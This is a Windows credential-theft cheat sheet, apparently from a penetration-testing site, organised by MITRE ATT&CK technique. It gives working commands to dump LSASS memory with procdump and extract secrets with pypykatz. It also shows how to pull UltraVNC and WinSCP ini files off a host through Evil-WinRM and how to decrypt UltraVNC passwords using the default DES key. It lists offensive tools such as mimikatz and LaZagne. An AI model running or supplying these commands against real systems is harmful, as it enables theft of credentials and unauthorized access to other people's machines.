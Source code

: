 ```yaml
---
layout: post
title: TA0006 Credentials Steal - Windows
category: pen
parent: cheatsheets
modified_date: 2023-06-08
permalink: /pen/creds/win
---
```


**Mitre Att&ck Entreprise**: [TA0006 - Credentials Access](https://attack.mitre.org/tactics/TA0006/)

**Menu**
<!-- vscode-markdown-toc -->
* [tools](#tools)
* [dumps](#dumps)
	* [lsass](#lsass)
		* [lsass-dump](#lsass-dump)
		* [lsass-extract](#lsass-extract)
	* [ntds.dit](#ntds.dit)
	* [sam](#sam)
* [schtasks](#schtasks)
* [softwares](#softwares)
	* [auto](#auto)
	* [chrome](#chrome)
	* [mremoteng](#mremoteng)
	* [xvnc](#xvnc)
	* [winscp](#winscp)
	* [putty](#putty)
	* [browsers](#browsers)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='tools'></a>tools

Multi-features Hacking Tools :

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/gentilkiwi/mimikatz/","https://api.github.com/repos/skelsec/pypykatz", "https://api.github.com/repos/SecureAuthCorp/impacket", "https://api.github.com/repos/Hackndo/lsassy", "https://api.github.com/repos/deepinstinct/Lsass-Shtinkering","https://api.github.com/repos/D1rkMtr/DumpThatLSASS","https://api.github.com/repos/codewhitesec/HandleKatz","https://api.github.com/repos/Z4kSec/Masky","https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/Processus-Thief/HEKATOMB","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

## <a name='dumps'></a>dumps

* [T1003 - OS credentials dumping](https://attack.mitre.org/techniques/T1003/001/)

### <a name='lsass'></a>lsass

#### <a name='lsass-dump'></a>lsass-dump
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
- [redteamrecipe 50 methods](https://redteamrecipe.com/50-Methods-For-Dump-LSASS/) 🔥
- [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)

#### <a name='lsass-extract'></a>lsass-extract
```
pypykatz lsa minidump lsass.dmp -k /tmp/krb > output.txt
```

### <a name='ntds.dit'></a>ntds-dit
### <a name='ntds.dit'></a>ntds-dit-dump


### <a name='sam'></a>sam
- [registry & vss](https://nored0x.github.io/red-teaming/Windows-Credentials-SAM-Database-part-1/)

## regkeys
[T1552.002](https://attack.mitre.org/techniques/T1552/002/)
```sh
Software\SimonTatham\Putty\Sessions
```

## <a name='schtasks'></a>schtasks

## <a name='softwares'></a>softwares

### <a name='auto'></a>auto

<script>$(window).load(function() {var reposs = ["https://github.com/Arvanaghi/SessionGopher", "https://github.com/EncodeGroup/Gopher", "https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (repp in reposs) {$.ajax({type: "GET", url: reposs[repp], dataType: "json", success: function(result) {$("#repo_listt").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<div id="reposs">
    <table id="repo_listt" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

### <a name='chrome'></a>chrome
- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)

### <a name='mremoteng'></a>mremoteng

- [password decryption](https://github.com/S3cur3Th1sSh1t/mRemoteNG-Decrypt)

### <a name='xvnc'></a>xvnc

* VNC softwares properties:  

| software | registry key | ini file |
|----------|--------------|--------|
| RealVNC | HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver | C:\Program Files\RealVNC\ |
| TightVNC | HKEY_CURRENT_USER\Software\TightVNC\Server | C:\Program Files\TightVNC\ |
| TigerVNC | HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4 | C:\Program Files\TigerVNC\ |
| UltraVNC | | C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini |

* Example of download of the ini file:
```sh
Evil-winRM > download "C:\Program Files\uvnc bvba\UltraVNC\ultravnc.ini" /tmp/ultravnc.ini
```

* UtltraVNC specificities

passwd - full control password
passwd2 - read-only password
```sh
# des decryption using the ultravnc default decryption key 'e84ad660c4721ae0' 
echo -n passwd | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv

# test the password / vnc access
vncsnapshot 1.2.3.4 pwned_desktop_x.png
```


### <a name='winscp'></a>winscp

* Get an RDP session
* Check if there are saved passwords
* Export the configuration
* Download of the ini file:
```sh
Evil-winRM > download "C:\Windows\Temp\winscp.ini" /tmp/winscp.ini
```

### <a name='putty'></a>putty

### <a name='browsers'></a>browsers
- [chrome / mac os](https://github.com/breakpointHQ/chrome-bandit)
